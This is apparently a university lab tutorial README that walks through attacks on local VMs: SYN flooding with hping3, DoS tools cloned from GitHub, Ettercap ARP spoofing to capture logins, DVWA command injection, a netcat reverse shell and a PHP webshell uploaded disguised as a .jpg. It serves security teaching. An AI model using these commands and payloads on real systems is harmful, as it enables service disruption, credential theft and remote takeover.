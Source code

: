 - [1. Denial of Service Attacks](#1-denial-of-service-attacks)
  - [1.1 TCP flooding using hping3](#11-tcp-flooding-using-hping3)
  - [1.2 Smurf DoS attack using DDos Ripper](#12-smurf-dos-attack-using-ddos-ripper)
  - [1.3 MHDDos Attack Script With 51 Methods](#13-mhddos-attack-script-with-51-methods)
  - [1.4 Man in the Middle Attacks and Session Hijacking](#14-man-in-the-middle-attacks-and-session-hijacking)
  - [1.5 Setting up a spoofing attack with Ettercap - ARP Spoofing](#15-setting-up-a-spoofing-attack-with-ettercap---arp-spoofing)
  - [1.6 Modifying the data between the client and the server](#16-modifying-the-data-between-the-client-and-the-server)
  - [](#)
  - [File Inclusion](#file-inclusion)
  - [Remote file inclusion](#remote-file-inclusion)

----------


## 1. Denial of Service Attacks

### 1.1 TCP flooding using hping3

hping3 is application which can test the networking and systems at the network and transport layers. The testing approach is based on the three-phase communication which is SYN, SYN-ACK and ACK. TCP SYN flood happens when this handshake doesn't complete properly.

- type `top` in owasp vm to see the system usage, keep this open while performing the TCP SYN flood.
    <img src="https://github.com/mr-desilva/6COSC019C-Cyber-Security/blob/main/Tutorial%204/images/img1.png">

- go to kali vm and type `sudo hping3 192.168.56.102 --flood -S -p 445 ` .
  
    |Parameter|Definition|
    |:----|:----|
    |-S|default TCP mode|
    |-p 445|Specify the destination port which is 445|
    |-flood| specify a high omission rate to enable flooding.

    <img src="https://github.com/mr-desilva/6COSC019C-Cyber-Security/blob/main/Tutorial%204/images/img2.png">
----------


### 1.2 Smurf DoS attack using DDos Ripper

This attack consists of sending a series of ICMP echo requests with a spoofed source IP address to the network broadcast address. Less effective against the modern systems.

- Clone the repo from `git clone https://github.com/palahsu/DDoS-Ripper.git
`
- Navigate to project `cd DDoS-Ripper` and type `python3 DRipper.py`
- Next we will flood the OWASP vm with ICMP packet request using the following command. `python3 DRipper.py -s 192.168.56.104 -t 445` after entering open the windows VM and navigate to the server page. `http://192.168.56.102/`. You will notice a slow in the server but it does not crash.

    <img src="https://github.com/mr-desilva/6COSC019C-Cyber-Security/blob/main/Tutorial%204/images/img3.png">

----------


### 1.3 MHDDos Attack Script With 51 Methods

This script can be use to stress test websites using different methods.
- Clone the repository `git clone https://github.com/MHProDev/MHDDoS.git`
- Navigate to project `cd MHDDos` and install the requirements `pip install -r requirements.txt
`, after run the script `python3 start.py`.

    <img src="https://github.com/mr-desilva/6COSC019C-Cyber-Security/blob/main/Tutorial%204/images/img4.png">

- Run this command to flood the OWASP vm with TCP packets request from 1 thread for 3600 seconds. `python3 start.py tcp 192.168.56.104 1 3600
`. Next if you open the windows VM and navigate through server page there will be a delay when loading the pages.

    <img src="https://github.com/mr-desilva/6COSC019C-Cyber-Security/blob/main/Tutorial%204/images/img5.png">


----------

### 1.4 Man in the Middle Attacks and Session Hijacking
- A Man in the Middle (MITM) attack is the type of attack in which the attacker sets themselves in the middle of the communication line between two parties, usually a client and a server.
- This is done by breaking the original channel and then intercepting messages from one party and relaying them (sometimes with alterations) to the other.

----------


### 1.5 Setting up a spoofing attack with Ettercap - ARP Spoofing

Address Resolution Protocol (ARP) spoofing is maybe the most common MITM attack out there. It is based on the fact that the Address Resolution Protocol—the one that translates IP addresses to MAC addresses—does not verify the authenticity of the responses that a system receives.

- Open a root terminal and run `sudo ettercap -G`
  <img src="https://github.com/mr-desilva/6COSC019C-Cyber-Security/blob/main/Tutorial%204/images/img6.png">
- Click on the right top tick and continue. Now click on the left side top icon with servers. Here you can see list of hosts in your private network. (If you can't see the hosts, click on the search icon)
  
  <img src="https://github.com/mr-desilva/6COSC019C-Cyber-Security/blob/main/Tutorial%204/images/img7.png">
- Select the target host which is the OWASP vm (192.168.56.102) as target 1.
  
  <img src="https://github.com/mr-desilva/6COSC019C-Cyber-Security/blob/main/Tutorial%204/images/img8.png">

- Click on the right side top icon with global and select MITM option ARP poisoning and click OK.

    <img src="https://github.com/mr-desilva/6COSC019C-Cyber-Security/blob/main/Tutorial%204/images/img9.png">

- Now move on to the windows VM and navigate to 'Damn Vulnerable Web Application' page and enter some credentials. After Clicking login check the ettercap terminal. You can see the username and the password from there.

    <img src="https://github.com/mr-desilva/6COSC019C-Cyber-Security/blob/main/Tutorial%204/images/img10.png">

    <img src="https://github.com/mr-desilva/6COSC019C-Cyber-Security/blob/main/Tutorial%204/images/img11.png">

----------
### 1.6 Modifying the data between the client and the server
Vulnerability : Command execution

login to owasp dvwa 
username = admin / pswrd = admin

`;ls` , `;pwd`

 <img src="https://github.com/mr-desilva/6COSC019C-Cyber-Security/blob/main/Tutorial%204/images/img12.png">

1. Go to the Kali vm and type the command, Checking the port is open
    <img src="https://github.com/mr-desilva/6COSC019C-Cyber-Security/blob/main/Tutorial%204/images/img13.png">
  
2. `; ls /bin/nc*`
   <img src="https://github.com/mr-desilva/6COSC019C-Cyber-Security/blob/main/Tutorial%204/images/img14.png">

----------

### 

- Opening a port using netcap, `sudo nc -lp 1691 -v`. 1691 is the port number. 
- Keep running the vm, go to dvwa and enter command execution command `; /bin/nc.traditional -e /bin/bash 192.168.56.101 1691 &`

   <img src="https://github.com/mr-desilva/6COSC019C-Cyber-Security/blob/main/Tutorial%204/images/img15.png">

----------
### File Inclusion
### Remote file inclusion
- Create two php files including this code.
  - webshell.php

```php
<?
system($_GET['cmd']);
echo '<from method="post" action="../../hackable/uploads/webshell.php"><input type="text" name="cmd" /></form>';
?>
```
  - rename.php
```php
<?
system('mv ../../hackable/uploads/webshell.jpg ../../hackable/uploads/webshell.php');
?>
```
- Change the .php extension to .jpg using `cp webshell.php webshell.jpg` , do this for both files

- Go to dvwa and upload the webshell.jpg file.
  <img src="https://github.com/mr-desilva/6COSC019C-Cyber-Security/blob/main/Tutorial%204/images/img16.png">
